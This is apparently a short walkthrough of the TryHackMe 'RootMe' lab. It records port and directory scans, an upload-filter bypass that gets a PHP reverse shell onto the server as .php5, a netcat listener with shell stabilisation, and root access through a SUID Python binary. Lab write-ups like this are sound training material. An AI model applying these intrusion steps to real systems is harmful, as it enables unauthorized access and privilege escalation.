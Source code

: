 # RootMe Room
https://tryhackme.com/room/rrootme

export target=10.10.138.30

## Port / Service Scans
1. `nmap -sC -sV -vv <ip> | tee nmap/initial-scan`
2. `nmap -p- --min-rate 10000 -v <ip> | tee nmap/quick-scan`

Found:
- 80: Apache 2.4.29
- 22: SSH

## Directory & File Bruteforce
`gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

Found:
- Hidden directory called "/panel/"
- Directory called "/uploads"/

## Exploiting
/panel contains upload screen
tried uploading .php reverse shell - didn't work
tried changing mimetype before submitting - didn't work
tried changing file extension from .php -> .php5 - Worked

Accessed file from /uploads and used netcat to listen

`nc -lvnp 9989` Netcat Listener  

### Stabilise NC term
`python3 -c 'import pty;pty.spawn("/bin/bash")'` on target  
`export TERM=xterm` on target  
Then I backgrounded ther shell using CTRL+Z and ran `stty raw -echo;fg` on my own machine to gain access to www-user

### Privesc
Checked system for SUID bit binaries  
`find / -user root -perm /4000`

Found `/usr/bin/python`

Checked GTFO bins for Python: https://gtfobins.github.io/gtfobins/python/#suid

ran `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` and gained root privs
